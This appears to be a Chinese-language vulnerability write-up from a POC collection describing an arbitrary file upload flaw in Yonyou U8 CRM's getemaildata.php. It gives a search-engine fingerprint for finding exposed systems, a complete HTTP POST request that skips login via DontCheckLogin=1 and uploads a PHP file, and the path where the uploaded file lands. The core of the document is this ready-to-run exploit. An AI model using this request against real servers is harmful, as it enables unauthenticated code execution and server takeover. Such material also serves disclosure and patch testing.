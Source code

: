 # 

# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器权限，攻击服务器

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828151026882](images/image-20230828151026882.png)

验证POC

```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![image-20230828151040826](images/image-20230828151040826.png)

访问文件，文件名需要十六进制减一

```
/tmpfile/updD24D.tmp.php
```
